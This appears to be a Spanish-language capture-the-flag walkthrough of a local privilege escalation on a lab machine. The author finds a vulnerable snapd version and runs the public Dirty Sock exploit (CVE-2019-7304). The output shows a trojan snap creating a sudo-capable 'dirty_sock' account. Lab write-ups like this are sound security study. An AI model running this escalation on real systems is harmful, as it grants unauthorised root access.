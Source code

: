 	A favor de Kodi
	1.-Utiliza el contenido disponible en Internet
	2.-Siempre puedes instalarle Plex
	3.-Más versátil gracias a su infinita colección de addons
	
	Según mi opinión personal, es mas sencillo instalar kodi,
	de hecho, puedes probar el nuevo gestor de paquetes SNAP.
	
	#snap install kodi –edge
	#snap run kodi

Averiguamos que versión de SNAP posee.

```
d4ddysh4rk@jaws:~$ snap version
snap 2.32.5+18.04
snapd 2.32.5+18.04
series 16
ubuntu 18.04
kernel 4.15.0-20-generic
```

Googleando un poco averiguamos un poco sobre la versión y encontraremos la siguiente información donde indica que es vulnerable.
[https://www.cvedetails.com/cve/CVE-2019-7304/](https://www.cvedetails.com/cve/CVE-2019-7304/){:target="_blank"}
[https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html](https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html){:target="_blank"}

Utilizamos la versión 2 del exploit dirty_sock
[https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py){:target="_blank"}

Lo copiamos en el directorio /tmp

```
d4ddysh4rk@jaws:/tmp$ ls
dirty_sockv2.py
d4ddysh4rk@jaws:/tmp$
```

y lo ejecutamos

```
d4ddysh4rk@jaws:/tmp$ python snap2.py

//=========[]==========================================\\
|| R&D || initstring (@init_string) ||
|| Source || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock ||
\\=========[]==========================================//

[+] Slipped dirty sock on random socket file: /tmp/euqevxzgih;uid=0;
[+] Binding to socket file…
[+] Connecting to snapd API…
[+] Deleting trojan snap (and sleeping 5 seconds)…
[+] Installing the trojan snap (and sleeping 8 seconds)…
[+] Deleting trojan snap (and sleeping 5 seconds)…

********************
Success! You can now `su` to the following account and use sudo:
username: dirty_sock
password: dirty_sock
********************

d4ddysh4rk@jaws:/tmp$
```
